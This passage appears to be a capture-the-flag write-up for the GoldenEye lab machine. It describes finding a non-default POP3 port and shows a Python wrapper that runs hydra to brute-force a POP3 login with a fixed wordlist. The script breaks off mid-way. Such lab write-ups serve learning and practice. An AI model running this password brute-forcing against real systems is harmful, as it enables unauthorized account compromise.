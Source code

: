 ![log](/public/post-images/Golden-Eye/log.png)

There was nothing much but it was hinted out that there was use of a non-default port 
pop3 which we had found in our enumeration. 
From the documentation we understood that we could communicate though the pop3 port 
so we had to netcat the IP through the pop3 ports and it worked we got a pop3 terminal of 
some sorts but we couldn’t get anything so we deviced a python script; 

***Its commands were to run hydra on the set IP, set port, set username, and protocol (just for certainty so as it doesn’t scour through all protocols)***

Here is the Python script;

```

import subprocess 
import uuid 
# Fixed wordlist path 
WORDLIST_PATH = "/usr/share/wordlists/fasttrack.txt" 
# Prompt the user for inputs (allowing copy-paste) 
print("You can copy and paste the following inputs:") 
username = input("Enter the username: ") 
ip_address = input("Enter the IP address: ") 
port = input("Enter the port: ") 
protocol = input("Enter the protocol (e.g., pop3, ssh, ftp): ") 
# Construct the Hydra command 
hydra_command = [ 
"hydra", 
    "-l", username, 
    "-P", WORDLIST_PATH, 
    "-f", 
    ip_address, 
    "-s", port, 
    protocol 
] 
 
# Execute the Hydra command and capture output 
try: 
    print("\nRunning Hydra... Please wait.") 
    result = subprocess.run(hydra_command, capture_output=True, text=True, 
check=True) 
     
    # Extract the successful login credentials from Hydra's output 
    output = result.stdout 
```